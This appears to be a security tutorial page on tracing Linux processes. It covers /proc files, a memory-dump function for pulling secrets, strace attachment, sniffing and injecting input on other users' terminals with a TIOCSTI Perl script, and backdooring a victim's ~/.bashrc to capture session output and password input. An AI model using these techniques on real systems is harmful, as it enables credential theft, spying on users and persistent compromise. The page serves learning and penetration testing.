 ```yaml
---
description: >-
  Find detailed information about another running processes using the /proc
  folder and other tricks
---
```


# Tracing Processes

## `/proc`

This folder on a Linux system holds all the information about running processes. From their memory to their executable, or the files they have open. Every process has a unique Process ID (PID). In the `/proc/[PID]` directory, you can find information specific to that certain process. Here are a few interesting files:

* `/proc/[PID]/cmdline`: **Command line arguments** passed to the program on startup (`\x00` byte as separator)
* `/proc/[PID]/exe`: A symbolic link to the **executable** file that was used to start the process
* `/proc/[PID]/environ`: **Environment variables** for the process (`\x00` byte as separator)
* `/proc/[PID]/fd/`: A **directory** that contains symbolic links to the **opened files** of the process
* `/proc/[PID]/maps`: Information about the **memory mappings** for the process, including the **addresses** and **permissions** of each mapping
* `/proc/[PID]/mem`: A file representing the process's memory which should not be world-readable, only root and the owner of the process. Combined with the `maps` file it can be used to obtain a full memory dump of the process (see [#dump-memory-from-proc](tracing-processes.md#dump-memory-from-proc "mention"))

If you `ls` the directory, you will find all the files and their permissions, these are just a few useful ones.&#x20;

### Dump memory from /proc

By combining the `maps` and `mem` files of a process, one can extract the loaded memory regions to find exactly what is in the memory of the program. This can be used to find secrets or anything that might be loaded in there. Using the following bash functions you can easily dump the memory of a process into the current directory ([source](https://serverfault.com/questions/173999/dump-a-linux-processs-memory-to-file/970213#970213)):

```bash
procdump() ( 
    cat /proc/$1/maps | grep -Fv ".so" | grep " 0 " | awk '{print $1}' | ( IFS="-"
    while read a b; do
        dd if=/proc/$1/mem bs=$( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \
           skip=$(( 0x$a )) count=$(( 0x$b - 0x$a )) of="$1_mem_$a.bin"
    done )
)
```

After defining it like this, you can simply take a PID and dump it:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ prodump 1337
</strong>1337_mem_7fcddc835000.bin
...
</code></pre>

### `/proc/self`

This is a special directory, that links to the **current process**'s `/proc` folder. If you don't know the PID for example, you can read any files in here like `/proc/self/environ` to read it from the process that is executing the file read, without having to guess anything. But note that the Process IDs are very predictable, and can be brute-forced easily with a script to find all processes.&#x20;

## `strace`

[strace](https://man7.org/linux/man-pages/man1/strace.1.html) is a Linux tool that **traces syscalls**. You can attach it to a process, and it will print all the syscalls and their parameters that are being called when they happen. This can be incredibly insightful when reverse engineering what a process is doing, as you can interactively see calls that normally happen in the background.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ strace ./binary
</strong>execve("./binary", ["./binary"], 0x7ffe2c32ca40 /* 41 vars */) = 0
brk(NULL)                               = 0x555b9afcc000
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f84f4653000
...
</code></pre>

Even better, you can also **attach** it to **other processes** just requiring a Process ID (PID). You just need permission to read the necessary files, which only the root user and owner of the process has. If a process is running as your user, but in another terminal you don't have access to for example, this can attach to the process and give you a lot of information.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ strace -p 1337
</strong>strace: Process 72722 attached
restart_syscall(&#x3C;... resuming interrupted read ...>) = 0
fcntl(0, F_GETFL)                       = 0x2 (flags O_RDWR)
fcntl(0, F_SETFL, O_RDWR|O_NONBLOCK)    = 0
</code></pre>

{% hint style="info" %}
For extracting useful information from these syscalls, you will often see arguments **truncated** to 32 characters **by default**. You can change this limitation using the **`-s` argument** and provide a much larger maximum to get the full data.&#x20;

```shell-session
$ strace -p 1337 -s 99999
```
{% endhint %}

## `/dev/pts` (terminals)

There are pseudo-terminals in the `/dev/pts` directory, that you might see the TTY column of a `ps` or `w` command.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ps auxt | grep pts
</strong>user     658  0.0  0.0  10496  5488 pts/0    Ss+  17:17   0:00 -bash
</code></pre>

These can give you access to the input of the process, meaning you can read the input that is going through the terminal on the other side, as well as write your own into it.&#x20;

{% hint style="warning" %}
Due to a **race condition** of both processes trying to read the same data at the same time, you might not receive all data, as only one can actually receive it
{% endhint %}

<pre class="language-shell-session"><code class="lang-shell-session"># # Read per character and print as hex
<strong>$ while true; do cat /dev/pts/1; done 2>/dev/null | xxd -c1
</strong>00000000: 68  h
00000001: 65  e
00000002: 6c  l
00000003: 6c  l
00000004: 6f  o
# # Print as raw text and output file
<strong>$ while true; do cat /dev/pts/1; done 2>/dev/null | tee /tmp/out
</strong>hello
</code></pre>

### Send STDIN to TTY

Send accepted standard input to a TTY to influence the behavior, or maybe execute commands ([source](https://unix.stackexchange.com/a/48221)).&#x20;

{% code title="tty.pl" %}
```perl
require "sys/ioctl.ph";
ioctl(STDOUT, &TIOCSTI, $_) for split "", <STDIN>;
```
{% endcode %}

```shell-session
$ echo 'id' | sudo perl tty.pl > /dev/pts/1
```

## Other tricks

A few more tricks that may be useful in some cases, highly specific to the type of processing that is running.&#x20;

### Backdoor `~/.bashrc`

When a victim logs in as a user where you can write their .bashrc file, you can make them execute arbitrary commands before starting their shell (such as a reverse shell). To get a **clean log** of the STDIN, STDOUT and STDERR combined into one file as output you can use a command like this as the backdoor:

<pre class="language-bash" data-title=".bashrc"><code class="lang-bash"><strong>script -qfc /bin/bash /tmp/out
</strong></code></pre>

This command won't capture the STDIN of a password input for example, **only what is displayed** on the screen. If a user or an automated system tries to type into a hidden input like the `sudo` prompt, you can try to **capture all the input** using the `cat` command without any arguments:

<pre class="language-bash" data-title=".bashrc"><code class="lang-bash"><strong>cat > /tmp/out
</strong></code></pre>

### Allow history files

Sometimes a machine will try to prevent a system from logging executed commands in the history file. In bash, the `~/.bash_history` file for example will contain all the commands executed in an interactive bash shell, which may contain sensitive information like passwords or other secrets.&#x20;

These can be disabled by symlinking them to `/dev/null`, but if we have permission, we can simply **delete the history file** to unlink the symlink. When the next command is then executed, it will find that there is no file anymore and just create a new one with the history.&#x20;

This idea of resetting the `~/.bash_history` file may also work for other programs whose history file is symlinked to `/dev/null`. This depends on the process, but some interactive ones have their own history file.&#x20;
